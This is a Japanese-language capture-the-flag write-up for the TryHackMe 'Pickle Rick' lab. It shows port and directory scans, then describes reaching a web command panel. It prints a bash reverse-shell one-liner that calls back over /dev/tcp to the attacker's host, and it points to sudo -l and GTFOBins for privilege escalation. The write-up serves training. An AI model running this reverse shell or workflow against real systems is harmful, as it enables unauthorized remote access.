


# Target [Pickle Rick](https://tryhackme.com/room/picklerick)


## ポートスキャン
```
┌─[penguin@parrot]─[~/TryHackMe/PickleRick]
└──╼ $nmap -Pn -sV $IP -oN nmapscan_result.txt
Nmap scan report for 10.10.197.175
Host is up (0.31s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 696.60 seconds
```
## アクセスできるサイトの調査
```┌─[penguin@parrot]─[~/TryHackMe/PickleRick]
└──╼ $gobuster dir -u http://10.10.197.175 -w /usr/share/wordlists/dirb/common.txt -x php,html,txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.197.175
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,html,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 278]
/.html                (Status: 403) [Size: 278]
/.hta                 (Status: 403) [Size: 278]
/.hta.php             (Status: 403) [Size: 278]
/.hta.html            (Status: 403) [Size: 278]
/.hta.txt             (Status: 403) [Size: 278]
/.htaccess            (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/.htaccess.php        (Status: 403) [Size: 278]
/.htaccess.txt        (Status: 403) [Size: 278]
/.htpasswd.txt        (Status: 403) [Size: 278]
/.htaccess.html       (Status: 403) [Size: 278]
/.htpasswd.php        (Status: 403) [Size: 278]
/.htpasswd.html       (Status: 403) [Size: 278]
/assets               (Status: 301) [Size: 315] [--> http://10.10.197.175/assets/]
/denied.php           (Status: 302) [Size: 0] [--> /login.php]
/index.html           (Status: 200) [Size: 1062]
/index.html           (Status: 200) [Size: 1062]
/login.php            (Status: 200) [Size: 882]
/portal.php           (Status: 302) [Size: 0] [--> /login.php]
/robots.txt           (Status: 200) [Size: 17]
/robots.txt           (Status: 200) [Size: 17]
/server-status        (Status: 403) [Size: 278]
Progress: 18456 / 18460 (99.98%)
===============================================================
Finished
===============================================================
```

## いくつかサイトを見てみる
まず、webサイトにアクセスしてみるが、ソースを見てみるとユーザー名を発見できる


assetsの中身を見てみると、いくつかのjpegファイルなどがあるので、見てみる


他にもrobots.txtに接続すると面白い文言を見つけた。  

上記をもとに、login.phpへアクセスしてみるとコマンド入力できる画面に遷移する。  

そのコマンド入力画面でリバースシェルを実行したいので、以下を実行する。  
```bash -c "sh -i >& /dev/tcp/10.21.135.141/2022 0>&1" ```
IPアドレスとポート(2022)は開くポートに変更しておくこと。  

あとはフラグファイルを探すことと、特権IDに昇格するための調査をする。  
特権IDは```sudo -l```の結果を見て、[GTFOBians](https://gtfobins.github.io/)で特権IDに昇格できるものを探せばOK。  
